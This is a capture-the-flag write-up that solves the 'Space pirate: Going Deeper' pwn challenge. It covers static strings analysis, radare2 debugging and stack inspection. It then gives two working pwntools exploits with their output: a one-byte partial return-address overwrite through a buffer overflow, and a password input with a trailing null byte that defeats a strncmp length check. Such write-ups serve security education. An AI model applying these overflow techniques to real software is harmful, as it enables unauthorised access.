








# Space pirate: Going Deeper
Now we're on to the second challenge in the "pwn" category. 

## Checking out the binary
Let's start the program first and see what we're dealing with.


Both option 1. and 2. request some kind of authentication from us, that we can't provide.
If just enter anything we get an error message and the program terminates
  

Maybe the password is just a string that's saved in the binary itself. Let's check with
```bash
cjreek@kali:~$ strings ./sp_going_deeper
```
We find a pretty suspicious string that might be the password we're looking for:
> ...  
> [\*] Username:  
> [!] Exiting..  
> **DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft**  
> %s[+] Welcome admin! The secret message is:   
> cat flag*  
> %s[-] Authentication failed!  
> ...  

  
When we try, we not only get denied, but it seems like the password is already too big for the internal buffer and causes a buffer overflow with a resulting segmentation fault.

## Debugging and analyzing
Let's load up the binary in Radare2 and let's see what we can find there.
```bash
cjreek@kali:~$ r2 -d ./sp_going_deeper
```
First we analyze the binary
```
[0x00400b47]> aaa
```
Let's see what functions there are:
```lua
[0x00400b47]> afl
0x004007a0    1 43           entry0
0x004007e0    4 42   -> 37   sym.deregister_tm_clones
0x00400810    4 58   -> 55   sym.register_tm_clones
0x00400850    3 34   -> 29   sym.__do_global_dtors_aux
0x00400880    1 7            entry.init0
0x00400c10    1 2            sym.__libc_csu_fini
0x00400c14    1 9            sym._fini
0x004009e9   18 350          sym.admin_panel
0x004008dd    1 191          sym.banner
0x00400750    1 6            sym.imp.time
0x00400740    1 6            sym.imp.srand
0x00400790    1 6            sym.imp.rand
0x004006f0    1 6            sym.imp.puts
0x00400ba0    4 101          sym.__libc_csu_init
0x004007d0    1 2            sym._dl_relocate_static_pie
0x00400b47    1 84           main
0x0040099c    1 77           sym.setup
0x00400760    1 6            sym.imp.setvbuf
0x00400720    1 6            sym.imp.alarm
0x00400887    1 86           sym.read_num
0x00400730    1 6            sym.imp.read
0x00400770    1 6            sym.imp.strtoul
0x004006b8    3 23           sym._init
0x004006e0    1 6            sym.imp.strncmp
0x00400700    1 6            sym.imp.system
0x00400710    1 6            sym.imp.printf
0x00400780    1 6            sym.imp.exit
```
It's time to switch to visual mode
```
[0x00400b47]> V
```
and navigate to the debugging view by pressing ``p`` twice  
Now we navigate to the ``main`` function by opening the command line with ``Shift+:`` and then
```
:> s main
```
We immediately see a call to ``sym.admin_panel`` where the code of the menu options seem to be contained. Let's go there with ``s sym.admin_panel``
By following both the 1. and 2. options 

we finally end up at the code that reads and checks our password input 


If we take a look at the code we can see 3 potential ways to get to the flag:
1. We change the the value of ``c`` from 3 to 0x1337beef
2. We override the return address to jump right to the code that prints the flag
3. We pass the correct password as input

Let's overflow the buffer and see how the stack looks before and after the overflow, to see what is and is not possible.
We see that ``read()`` reads up to 57 bytes from stdin. Let's put a breakpoint right before and after the call to ``read()`` to look at the stack before and after we overflow the buffer:
```
:> db 0x00400aba
:> db 0x00400abf
```
restart the program with the command ``doo`` and hit ``F9`` to continue execution.  
Select either 1. or 2. in the menu. We hit our first breakpoint and we can take a look at our stack: 

We can see the three values (``a``, ``b`` and ``c``) that are checked before the password itself is checked (purple) and we can discover the return address (0x400b94) of ``admin_panel`` (red)

 Let's hit F9 to continue execution and enter the maximum amount of characters (57)
````
[*] Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````
Now we should hit the 2nd breakpoint. Let's look at the stack again:


As we can see ``a``, ``b`` and ``c`` are untouched by the buffer overflow. So there is at least no direct way to change those values and get access to the flag that way.  
But the return address gets overwritten by the buffer overflow - or at least the least significant byte of the return address.
That should be good enough though, because the code printing the flag (0x00400b**12**) is not too far away from the original return address (0x400b**94**)

## Writing the exploit
So now we are ready to write our exploit

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send payload to jump the code printing the flag at 0x00400b12
payload = b"A"*56 # put anything for the first 56/57 bytes
payload += b"\x12" # change one byte of the return address to point to the system() call printing the flag
r.sendline(payload)
r.interactive()
````

Now if we execute that script we get the flag:

> [+] Starting local process './sp_going_deeper': pid 1735681  
> [*] Switching to interactive mode  
>  
>  [-] Authentication failed!
>  
> [!] For security reasons, you are logged out..  
>  
> HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $   

## An alternative way
So what about passing the right password to the programm so it prints the flag voluntarily?  
We tried that already at the beginning when we found the password with the ``strings`` tool, but it didn't work.
But why did it not work? It's the same password the programm is checking for in the code:
  
There is a catch. The password "DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft" is 51 characters long, but strncmp is told to compare 52 characters.
The 52. character of the string constant the code is comparing our input to is a null byte (\x00) because c-strings are terminated with a null byte.
The 52. character of our input is actually a new line character (\n or \x0a). So that's why the comparison fails.
But there is nothing preventing us from sending a null byte right after the password with pwntools.
So let's try if that works:

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send password with trailing null byte
payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
r.sendline(payload)
r.interactive()
````

And for a fact it actually works as well:
> [+] Starting local process './sp_going_deeper': pid 1740782  
> [*] Switching to interactive mode  
>   
> [+] Welcome admin! The secret message is: HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $  
